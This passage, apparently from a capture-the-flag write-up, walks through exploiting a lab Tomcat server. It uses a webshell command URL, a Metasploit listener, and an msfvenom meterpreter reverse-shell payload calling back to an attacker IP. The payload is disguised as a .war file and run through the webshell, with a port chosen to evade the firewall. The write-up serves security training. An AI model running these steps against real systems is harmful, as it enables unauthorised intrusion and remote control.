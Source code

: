 Now clicking /webshell should be enough to direct us to the webshell. In case it doesn't work straight away append ‘/index.jsp' to the url as follows:


http://172.16.64.101:8080/webshell/index.jsp?cmd=whoami

<img src="/assets/images/ctf1/webshell.png" height="100%" width="100%">
  
  
Great, now we have a user and a shell. Let's go ahead and obtain a reverse shell to obtain root with Metasploit payloads, the reverse tcp shell will help us to bypass the firewall. Meterpreter war payloads don't work for some reason so you can create a Metasploit listener as follows:

```bash
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set lhost 172.16.64.10
set lport 59919 
run
```
port 59919 is open on the victim which is why we use this port. A different port would make the firewall fire up alarms, that's why we listen on this port which is open on the victim machine.

Generate the executable with MSFvenom as follows:
```bash
root@0xBlackhat:~ # msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=172.16.64.10 lport=59919 -f elf -o meter
```
Now let's rename the file to meter.war making it a fake war file, it won't change our malicious file but it will allow us to deploy it on the victim machine:
```bash
root@0xBlackhat:~ # mv meter meter.war
```
et's now deploy this file as we previously did with the webshell on the /manager/html page.
Deployment won't work, but it's still a valid executable and it's on the server now. All we want.

We rename meter.war through the webshell as follows:
```bash
root@0xBlackhat:~ # mv var/lib/tomcat8/webapps/meter.war /tmp/meter  
root@0xBlackhat:~ # ls /tmp/meter  
root@0xBlackhat:~ # chmod +x /tmp/meter  
```
And we run as follows:
```bash
root@0xBlackhat:~ # /tmp/meter
```
And voila, a new meterpreter session opens up in our terminal. 
**getuid** shows we're in. Now it's about surfing the directories which you can and should enumerate. I didn't however, also don't remember where exactly the flag was I think somewhere in /home/user/admin directory or similar. 
